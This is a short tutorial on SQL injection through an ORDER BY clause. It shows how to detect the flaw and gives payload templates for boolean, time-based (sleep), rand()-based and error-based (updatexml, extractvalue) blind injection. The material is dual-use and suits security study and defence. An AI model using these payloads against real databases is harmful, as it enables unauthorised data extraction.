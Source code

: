 # Order by injection

Order by injection is an SQL injection with an injection point after `order by`.

Usually, the digital injection is exploited and the statement is as following.

```sql
select * from user order by $id;
```

## Injection judgment

use `order by asc` and `order by desc` separately. If there exists vulnerability, the results are different.

## Blind injection based on if()

Add an `if()` statement after `order by`. Whether the expression in `if()` is true or not will affect the sorting result. Based on `if()`, we can realize all kinds of blind injection.

```sql
select * from user order by if(expression, id, name);
select * from user order by if(expression, 1,(select id from information_schema.tables));
select * from user order by if(expression, 1, sleep(1));
```

## Blind injection based on rand()

Add an `rand()` expression after `order by`, and whether the expression in `if()` is true or not will affect the sorting result.

```sql
select * from user order by rand(expression);
```

## Blind injection based on error

```sql
select * from user order by updatexml(1,concat(0x7e,(expression),0x7e),1);
select * from user order by extractvalue(1, concat(0x7e,(expression),0x7e));
```
